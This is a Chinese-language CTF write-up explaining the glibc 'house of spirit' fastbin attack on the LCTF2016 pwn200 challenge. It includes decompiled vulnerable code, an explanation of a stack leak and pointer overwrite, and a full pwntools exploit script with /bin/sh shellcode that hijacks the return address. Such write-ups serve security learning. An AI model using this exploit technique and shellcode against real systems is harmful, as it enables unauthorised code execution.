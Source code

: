 # house of spirit 
## Author: Wenhuo
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>house系列之house of spirit，fastbin attack之一。<br>&nbsp;&nbsp;&nbsp;&nbsp;首先不可缺少的先贴[how2heap](https://github.com/shellphish/how2heap/blob/master/glibc_2.25/house_of_spirit.c)以及[ctfwiki](https://ctf-wiki.github.io/ctf-wiki/pwn/heap/fastbin_attack/)两大pwn入门学习神资料。</font><br>

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>完了之后这里以一题我当时学习的LCTF2016例题pwn200来讲解，顺便贴上我当时学习的[原帖](http://pwn4.fun/2017/06/26/%E5%A0%86%E6%BC%8F%E6%B4%9E%E4%B9%8BHouse-of-Spirit/)。程序开头是这样的：</font><br>

```C
int sub_400A8E()
{
  signed __int64 i; // [rsp+10h] [rbp-40h]
  char v2[48]; // [rsp+20h] [rbp-30h]

  puts("who are u?");
  for ( i = 0LL; i <= 47; ++i )
  {
    read(0, &v2[i], 1uLL);
    if ( v2[i] == 10 )
    {
      v2[i] = 0;
      break;
    }
  }
  printf("%s, welcome to xdctf~\n", v2);
  puts("give me your id ~~?");
  gets();
  return sub_400A29();
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>经典的read代码，虽然没有溢出但是v2缓冲区没有'\0'截断，因此泄露了栈地址；在这里gets()函数（我重命名之后）的返回值事实上是保存在栈上了，看伪代码看不出来，但是反汇编很清楚，可以作为栈上伪造chunk的size，继续深入：</font><br>

```C
int sub_400A29()
{
  char buf; // [rsp+0h] [rbp-40h]
  char *dest; // [rsp+38h] [rbp-8h]

  dest = (char *)malloc(0x40uLL);
  puts("give me money~");
  read(0, &buf, 0x40uLL);
  strcpy(dest, &buf);
  ptr = dest;
  return sub_4009C4();
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>仔细看，这里buf接受0x40大小，而根据栈，实际上buf的最后8个字节是可以修改dest的地址的，那么实际上在这里已经可以控制写入地址了，那么我们把dest修改到printf函数的got表处，然后strcpy写入的时候把printf函数的got表修改为shellcode的入口地址处不就完了？没错，完了:)</font><br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>但既然我们是来学house of spirit还是不用这种“歪”脑筋吧，老老实实的把dest修改到栈上（具体可以根据之前泄露的栈地址精确计算到想要的地方），然后free之，再重新malloc就会把这个堆块再返回过来，然后就可以随意控制这一片栈了。</font><br>

脚本
======

```python
#搬运大佬BruceFan的脚本，plus非预期解

#encoding:utf-8
from pwn import *

#r = remote('127.0.0.1', 6666)
p = process("./pwn200")
elf = ELF('./pwn200')
printf_got=elf.got['printf']

shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"

def pwn():
    # gdb.attach(p, "b *0x400991")

    data = shellcode.ljust(46, 'a')
    data += 'bb'
    p.send(data)
    p.recvuntil('bb')
    rbp_addr = p.recvuntil(', w')[:-3]
    rbp_addr = u64(rbp_addr.ljust(8,'\x00'))
    print hex(rbp_addr)

    fake_addr = rbp_addr - 0x90
    #fake_addr = printf_got
    
    shellcode_addr = rbp_addr - 0x50
    # 输入id伪造下一个堆块的size
    p.recvuntil('id ~~?')
    p.sendline('32')

    p.recvuntil('money~')
    
    #data = p64(shellcode_addr)+p64(0)*4+p64(0x41) 覆盖printf之got表为shellcode地址
    data = p64(0) * 5 + p64(0x41) # 伪造堆块的size
    data = data.ljust(0x38, '\x00') + p64(fake_addr) # 覆盖堆指针
    p.send(data)

    p.recvuntil('choice : ')
    p.sendline('2') # 释放伪堆块进入fastbin

    p.recvuntil('choice : ')
    p.sendline('1')
    p.recvuntil('long?')
    p.sendline('48')
    p.recvuntil('\n48\n') # 将伪堆块申请出来
    data = 'a' * 0x18 + p64(shellcode_addr) # 将eip修改为shellcode的地址
    data = data.ljust(48, '\x00')
    p.send(data)
    p.recvuntil('choice : ')
    p.sendline('3') # 退出返回时回去执行shellcode

    p.interactive()

if __name__ == '__main__':
    pwn()

```
